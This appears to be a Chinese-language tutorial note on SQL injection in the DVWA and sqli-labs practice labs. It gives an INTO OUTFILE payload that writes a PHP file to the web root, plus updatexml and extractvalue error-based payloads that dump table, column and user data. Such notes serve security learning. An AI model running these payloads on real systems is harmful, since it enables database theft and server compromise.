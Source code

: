 

##### 文件写入

**`union select 1,'<?php phpinfo();?>',3 into outfile '文件路径' --+`**

```
union select 1,'<?php phpinfo();?>',3 into outfile 'E:\\phpStudy\\WWW\\sqli\\Less-7\\1.php' --+
此时就将 phpinfo() 的内容写入 E:\phpStudy\WWW\sqli\Less-7 路径下并创建一个1.php文件

```



#### 报错注入

**updatexml（）函数**

- updatexml（）是一个使用不同的xml标记匹配和替换xml块的函数。
- 作用：改变文档中符合条件的节点的值
- 语法： updatexml（XML_document，XPath_string，new_value） 第一个参数：是string格式，为XML文档对象的名称，文中为Doc 第二个参数：代表路径，Xpath格式的字符串例如//title【@lang】 第三个参数：string格式，替换查找到的符合条件的数据
- updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
- 例如： select * from test where ide = 1 and (updatexml(1,0x7e,3)); 由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。



```
爆出数据库
1' and updatexml(1,concat(0x7e,database(),0x7er),1)#

爆当前数据库表信息
1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #

爆user表字段信息
1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'),0x7e),1) #

爆数据库内容、、
1' and updatexml(1,concat(0x7e,(select group_concat(first_name,0x7e,last_name) from dvwa.users)),1) #
```



extractvalue()函数其实与updatexml()函数大同小异，都是通过xpath路径错误报错

```
爆出数据库
1' and extractvalue(1,concat(0x7e,user(),0x7e,database())) #

爆当前数据库表信息
1' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) #

爆user表字段信息
1' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) #

爆数据库内容、、
1' and extractvalue(1,concat(0x7e,(select group_concat(user_id,0x7e,first_name,0x3a,last_name) from dvwa.users))) #

```
